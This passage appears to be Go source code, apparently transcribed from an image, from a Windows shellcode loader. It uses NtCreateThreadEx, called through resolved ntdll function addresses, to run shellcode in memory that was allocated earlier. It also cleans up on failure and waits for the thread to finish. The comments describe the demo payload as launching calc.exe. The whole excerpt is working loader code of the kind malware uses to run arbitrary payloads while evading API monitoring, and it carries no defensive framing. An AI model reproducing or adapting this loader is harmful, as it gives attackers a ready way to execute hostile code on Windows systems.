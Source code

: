 ```go
	// --- 3. Create Thread using NtCreateThreadEx ---
	fmt.Println("[*] Creating a new thread to execute shellcode...")
	var threadHandle windows.Handle

	// THREAD_ALL_ACCESS (0x1FFFFF) might not be defined as windows.THREAD_ALL_ACCESS
	// in older golang.org/x/sys/windows packages.
	// It's composed of: STANDARD_RIGHTS_REQUIRED (0x000F0000) | SYNCHRONIZE (0x00100000) | 0xFFFF (specific thread rights)
	// It's recommended to update your package: go get -u golang.org/x/sys/windows
	const desiredThreadAccess uintptr = 0x1FFFFF // Using the direct value for compatibility

	// NtCreateThreadEx(&ThreadHandle, DesiredAccess, ObjectAttributes, ProcessHandle, StartAddress, Parameter, CreateFlags, ZeroBits, StackSize, MaximumStackSize, AttributeList)
	// All optional/complex parameters set to 0/nil for simplicity.
	ntStatus, _, sysCallErr = syscall.SyscallN(
		funcAddrs["NtCreateThreadEx"],
		uintptr(unsafe.Pointer(&threadHandle)), // *ThreadHandle
		desiredThreadAccess,                    // DesiredAccess
		0,                                      // ObjectAttributes (NULL)
		uintptr(windows.CurrentProcess()),      // ProcessHandle
		baseAddress,                            // StartAddress (our shellcode)
		0,                                      // Parameter (NULL)
		0,                                      // CreateFlags (0 = run immediately)
		0,                                      // ZeroBits
		0,                                      // StackSize (0 = default)
		0,                                      // MaximumStackSize (0 = default)
		0,                                      // AttributeList (NULL)
	)

	if ntStatus != STATUS_SUCCESS {
		// Attempt to free allocated memory before exiting if thread creation fails
		var freeSize uintptr = 0
		syscall.SyscallN(
			funcAddrs["NtFreeVirtualMemory"],
			uintptr(windows.CurrentProcess()),
			uintptr(unsafe.Pointer(&baseAddress)),
			uintptr(unsafe.Pointer(&freeSize)),
			windows.MEM_RELEASE,
		)
		windows.FreeLibrary(ntdllHandle)
		log.Fatalf("[-] NtCreateThreadEx failed with NTSTATUS: 0x%X. Syscall error: %v", ntStatus, sysCallErr)
	}
	if threadHandle == 0 {
		// As above, clean up memory if thread handle is null
		var freeSize uintptr = 0
		syscall.SyscallN(
			funcAddrs["NtFreeVirtualMemory"],
			uintptr(windows.CurrentProcess()),
			uintptr(unsafe.Pointer(&baseAddress)),
			uintptr(unsafe.Pointer(&freeSize)),
			windows.MEM_RELEASE,
		)
		windows.FreeLibrary(ntdllHandle)
		log.Fatalf("[-] NtCreateThreadEx succeeded but returned a NULL thread handle.")
	}
	fmt.Printf("[+] Thread created successfully with Handle: 0x%X. Shellcode should be executing (calc.exe).\n", threadHandle)

	// --- 4. Wait for the Thread to Complete using NtWaitForSingleObject ---
	fmt.Println("[*] Waiting for the thread to complete (calc.exe to be closed)...")
	// NtWaitForSingleObject(Handle, Alertable, Timeout)
	// Alertable: FALSE (0)
```